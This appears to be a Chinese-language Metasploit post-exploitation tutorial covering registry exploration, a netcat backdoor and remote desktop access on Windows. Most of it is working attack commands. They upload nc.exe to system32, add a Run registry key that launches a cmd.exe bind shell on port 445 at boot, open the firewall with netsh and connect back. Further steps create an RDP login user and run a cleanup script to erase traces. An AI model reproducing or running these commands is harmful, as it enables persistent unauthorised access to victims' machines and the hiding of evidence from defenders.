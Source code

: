 ### 注册表探索 ❖
快查表：
https://www.offensive-security.com/wp-content/uploads/2015/04/wp.Registry_Quick_Find_Chart.en_us.pdf

```
meterpreter > reg
```

### netcat后门

第一步，将nc上传到system32：
```
meterpreter > upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32
```
第二步，修改注册表让netcat开机自启并且监听`445`端口：
```
meterpreter > reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run

meterpreter > reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 445 -e cmd.exe'

meterpreter > reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v nc
```
第三步，修改系统以允许防火墙通过netcat流量，使用`netsh`命令修改保证稳定性：
```
meterpreter > execute -f cmd -i

netsh firewall show opmode
netsh firewall add portopening TCP 445 "Service Firewall" ENABLE ALL
netsh firewall show portopening
```

全部完成后，当目标电脑重启时，我们就可以测试nc是否可以访问：
```
nc -v <remoteip> 445

C:\..... > dir
```

实际中不可能这么简单不需要密码/加密即可上传文件/修改系统，但是整体思路都是基本相同的

### 启动远程桌面 ❖

`enable_rdp` 模块可以启动远程桌面，并且创建一个用户进行登录：
```
msf > use post/windows/manage/enable_rdp
msf > show options
```

```shell
> rdesktop -u malfrnks -p password <remoteip>
...
```

你做的修改越多，留下的证据也就越多，所以要记得cleanup自己的踪迹：
```
meterpreter > run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__<specific>.rc
```
